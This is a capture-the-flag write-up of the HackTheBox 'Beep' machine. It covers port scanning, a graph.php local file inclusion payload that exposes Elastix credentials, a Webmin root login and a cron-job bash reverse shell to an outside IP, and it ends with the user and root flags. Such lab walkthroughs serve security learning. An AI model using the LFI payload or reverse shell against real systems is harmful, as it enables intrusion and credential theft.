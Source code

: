 # Beep
> Write-up author: jon-brandy

## Lesson learned:
- Directory listing using dirbuster.
- Exploiting Elastix webserver ('graph.php', LFI).
- Scheduled a cronjob at FreePBX service.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c0ed88ed-9dbd-460d-b284-b95980734554)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.7 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 22:16 PDT
Stats: 0:06:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.24% done; ETC: 22:22 (0:00:01 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.023s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS LOGIN-DELAY(0) AUTH-RESP-CODE APOP EXPIRE(NEVER) RESP-CODES PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) USER TOP UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN Completed STARTTLS OK NAMESPACE URLAUTHA0001 RENAME QUOTA MULTIAPPEND LIST-SUBSCRIBED IMAP4rev1 BINARY CATENATE LITERAL+ IMAP4 CONDSTORE MAILBOX-REFERRALS NO ACL ID SORT RIGHTS=kxte THREAD=REFERENCES THREAD=ORDEREDSUBJECT SORT=MODSEQ UNSELECT ATOMIC ANNOTATEMORE LISTEXT IDLE UIDPLUS X-NETSCAPE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2023-08-30T05:20:05+00:00; -1s from scanner time.
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 399.28 seconds
```

1. Interesting the machine opens many tcp ports, since the machine runs a web application let's run dirbuster.

> RESULT - WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18f63fec-cbd5-4016-80c5-f3712a82359d)


> RESULT - DIRBUSTER

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19e25d20-b5ff-40ee-a0ac-af483f77066b)


2. Confused it won't open the web app, to solve this i tried to modify the minimum TLS version. (It's possible that the TLS version of our browser is higher than what the browser supports).

> CHANGING THE TLS MINIMUM VERSION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f86d50f5-95dc-42c5-b1de-665bd5ba6c7f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1dc303de-f985-4c51-9848-95bb0678adce)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5f1543a-8483-4ba0-9b73-b4d86711604b)


3. Turns out elastix has many vuln history.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27776557-8c7d-44e7-8a68-8a015152663e)


4. Since we don't know the elastix version, but things to note here the FreePBX 2.10.0 used with the Elastix 2.2.0 is vulnerable to command injection.
5. But sadly, after opened the `admin` directory, it renders the FreePBX web service, but the version is below 2.10.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c63da729-e37b-4029-87fd-4a1aa9ee241c)


6. For port 10000, it opens a webmin login page.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/986d1c1f-4a52-4166-a681-5ed271bba894)


7. Based from the metasploit, the closest one must be the LFI vuln, since we can run directory listing (kinda guessing, never doing this in pentesting 🙏).
8. Reading the exploitdb [documentation](https://www.exploit-db.com/exploits/37637), we can use --> `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` whether the webapp is vulnerable to LFI or not.

> RESULT - It is vulnerable.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9d0d5bee-09e0-4772-ad6c-dc7561b4d706)


9. It exposes many creds for AMPortal and it's not clear which one we need to use for a certain login portal.
10. Here's the creds i got so far:

```
root:jEhdIekWmdjE
admin:Password
admin:amp111
admin:jEhdIekWmdjE
root:passw0rd 
```

> TIME SKIP, FOUND THE CORRECT CREDS FOR /ADMIN -> admin:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9761abb4-5c93-4043-83b2-6a8bc4f917af)


> FOR THE WEBMIN --> root:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/49e455ca-1b4b-4241-a14e-5ad30711449b)


11. Seems our interest now is in the webmin page, since we're logged in as root, we can scheduled command and cron jobs.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf6a7ed7-430d-4428-bc95-5c72b8a0cc4f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a75523b6-17ec-450b-a870-d14ea451b2c9)


12. Awesome, we can add our revere shell payload here, I used this template:

```
Set a listener on port 1337.

PAYLOAD:
sh -i >& /dev/tcp/10.10.14.26/1337 0>&1

WHAT TO SEND:
bash -c 'sh -i >& /dev/tcp/10.10.14.26/1337 0>&1'
```

> RESULT - need to wait until 09:45

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a514f8b-87a5-4320-b44c-49feb42eaede)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ea1d275e-9510-449d-b264-681384d89ac5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8bec72ab-cda9-4c7e-9717-213f4f494626)


13. Got the shell!

> GETTING USER FLAG AND ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/750a640b-735f-46aa-a279-6604f9690d56)


## USER FLAG

```
bc89af94b308f47d87fe1552c5506452
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a44b4cd5-873e-4c8a-8e4e-c704f1a8c823)


## ROOT FLAG

```
6688ccf3476b73a96f40e1d5210feed0
```
